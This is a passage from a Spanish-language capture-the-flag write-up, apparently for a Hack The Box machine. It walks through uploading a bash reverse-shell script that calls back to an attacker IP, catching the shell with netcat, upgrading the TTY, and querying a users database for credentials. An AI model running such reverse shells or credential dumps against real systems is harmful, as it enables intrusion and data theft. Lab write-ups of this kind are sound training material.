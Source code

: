 - Un archivo shell.sh
```shell
#!/bin/bash                                     
bash -i >& /dev/tcp/10.10.14.81/9001 0>&1
```

De esta manera subimos los dos archivos, previamente ponemos un server con python al puerto 8000 para posteriormente ponernos en escucha con `nc lvnp` en el puerto 9001 para entablar la conexión.

```shell
python3 -m http.server 
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
```

```shell
rlwrap nc -lvnp 9001                                                                                   
listening on [any] 9001 ...
connect to [10.10.14.17] from (UNKNOWN) [10.10.11.92] 37318
bash: cannot set terminal process group (20149): Inappropriate ioctl for device
bash: no job control in this shell
www-data@conversor:~$ whoami
whoami
www-data
www-data@conversor:~$ 
```
## Tratamiento de la TTY

Hacemos el prodecimiento de siempre para que la terminal sea más cómoda agregando las siguientes lineas de comandos para resetear la terminal.

```shell
python3 -c 'import pty;pty.spawn("/bin/bash")'
stty raw -echo; fg
```

## Extraer datos de la base de datos

Nos dirigimos al directorio donde estaba el `users.db` y vemos los ususarios existentes.

```shell
sqlite3 users.db
SQLite version 3.37.2 2022-01-06 13:25:41
Enter ".help" for usage hints.
sqlite> .table.tables
.tables
files  users
sqlite> .schem.schema users
.schema users
CREATE TABLE users (
        id INTEGER PRIMARY KEY AUTOINCREMENT,
        username TEXT UNIQUE,
        password TEXT
    );
sqlite> selectselect * from users;
select * from users;
```
